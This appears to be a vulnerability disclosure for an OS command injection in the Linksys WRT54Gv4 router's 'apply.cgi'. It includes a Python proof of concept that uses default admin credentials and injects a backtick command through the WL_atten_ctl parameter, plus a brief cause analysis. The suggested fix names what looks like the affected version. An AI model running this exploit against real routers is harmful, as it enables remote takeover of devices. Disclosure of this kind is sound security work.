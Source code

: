 # CVE Report - Command Injection Vulnerability in FW_WRT54Gv4_4.21.5.000_20120220 Routers 

## Vulnerability Title

Command Injection Vulnerability in FW_WRT54Gv4_4.21.5.000_20120220 Router. 

## Vulnerability Description

Linksys FW_WRT54Gv4 devices have an OS command injection vulnerability in the CGl interface "apply.cgi",which allows remote attackers to execute arbitrary commands via parameter **WL_atten_ctl**  and **WL_atten_radio** passed to the "apply.cgi" binary through a POST request.



## POC

```python
import requests

url = "http://{ip}/apply.cgi"

headers = {
    "Host": ip,
    "Content-Length": "146",
    "Cache-Control": "max-age=0",
    "Authorization": "Basic YWRtaW46YWRtaW4=",
    "Accept-Language": "zh-CN",
    "Upgrade-Insecure-Requests": "1",
    "Origin": "http://172.17.0.4",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Accept-Encoding": "gzip, deflate, br",
    "Connection": "keep-alive"
}

data = {
    "WL_atten_bb": "1",
    "WL_atten_radio": "1",
    "WL_atten_ctl": "`touch 1.txt`",
    "WL_delay":"1"
}

response = requests.post(url, headers=headers, data=data)

print("Status Code:", response.status_code)
print("Response Content:", response.text)

```



## Cause Analysis

The get_cgi function accepts external data. The user affects v5 by setting the WL_atten_ctl value. It enters system execution, resulting in a command execution vulnerability.
![image-20250226211642419](https://github.com/user-attachments/assets/2ba0c115-d9d4-4240-8edf-32c48f1c8884)

![image-20250226211659312](https://github.com/user-attachments/assets/731e75d3-82fe-4500-8988-ed09f0a411b6)



## Suggested Fix

It is recommended to update to the version FW_WRT54Gv4_4.21.5 of router to fix this vulnerability. 

